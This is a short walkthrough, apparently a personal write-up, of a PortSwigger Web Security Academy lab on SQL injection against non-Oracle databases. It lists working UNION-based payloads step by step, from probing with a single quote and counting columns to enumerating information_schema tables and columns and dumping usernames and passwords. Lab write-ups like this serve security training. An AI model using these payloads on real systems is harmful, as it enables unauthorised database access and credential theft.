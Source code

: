# SQL injection attack, listing the database contents on non-Oracle databases
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle

Step - 1
---
```
'
```
Error
Single Quotes

Step - 2
---
```
'--
```
No MySQL

Step - 3
---
```
' ORDER BY 3--
```
Error > 2 Column

Step - 4
---
```
' UNION SELECT 'a','a'--
```
2 String Column

Step - 5
---
```
' UNION SELECT 'a',table_name FROM information_schema.tables--
```
1. Table Name: users_losije

Step - 6
---
```
' UNION SELECT 'a',column_name FROM information_schema.columns WHERE table_name='users_losije'--
```
1. Column Name: username_nlazuv and password_xcildc

Step - 7
---
```
' UNION SELECT 'a',username_nlazuv || '~' || password_xcildc FROM users_losije--
```

